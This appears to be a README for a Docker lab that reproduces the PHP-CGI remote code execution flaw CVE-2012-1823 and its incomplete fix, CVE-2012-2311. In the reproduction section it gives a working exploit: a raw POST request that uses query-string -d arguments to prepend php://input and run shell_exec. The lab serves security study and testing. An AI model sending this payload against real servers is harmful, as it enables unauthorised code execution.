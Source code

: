 # PHP-CGI Remote Code Execution (CVE-2012-1823)

[中文版本(Chinese version)](README.zh-cn.md)

PHP-CGI is a SAPI (Server Application Programming Interface) implementation that allows PHP to communicate with web servers. A vulnerability in PHP-CGI allows attackers to pass command-line arguments to PHP through query strings, potentially leading to remote code execution.

Affected versions: PHP < 5.3.12 or PHP < 5.4.2

References:

- <http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/>
- <https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html>

## Environment Setup

Execute the following command to start a web server that uses PHP-CGI 5.4.1:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080/` to see the "Hello" message.

## Vulnerability Reproduction

Visit `http://your-ip:8080/index.php?-s` to reveal the source code, confirming the vulnerability exists. Send the following request to execute arbitrary PHP code:

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## Technical Details

### PHP SAPI and Running Modes

PHP-CGI can run in two modes:

1. CGI mode: The web server creates a new process for each request
2. FastCGI mode: A persistent process handles multiple requests

According to RFC3875, when the query string doesn't contain an unencoded `=` character, it should be passed as CGI parameters. Apache implemented this requirement, but PHP didn't properly handle this case, leading to this vulnerability.

The simplest exploitation method is using the `-s` parameter to display source code:

![](1.png)

A more powerful method is using `-d` to specify `auto_prepend_file`, creating an arbitrary file inclusion vulnerability:

![](2.png)

Note: Replace spaces with `+` or `%20`, and encode `=` characters.

### CVE-2012-2311 - The Incomplete Fix

PHP initially fixed this vulnerability in versions 5.4.2 and 5.3.12 by checking for the `-` character at the start of the query string. However, this fix was incomplete and could be bypassed (CVE-2012-2311) when PHP-CGI was wrapped in a shell script:

```sh
#!/bin/sh
exec /usr/local/bin/php-cgi $*
```

By adding whitespace before the `-`, attackers could still pass parameters as the first character would be a space instead of `-`.

PHP addressed this in versions 5.4.3 and 5.3.13 by skipping all leading whitespace before checking for the `-` character.
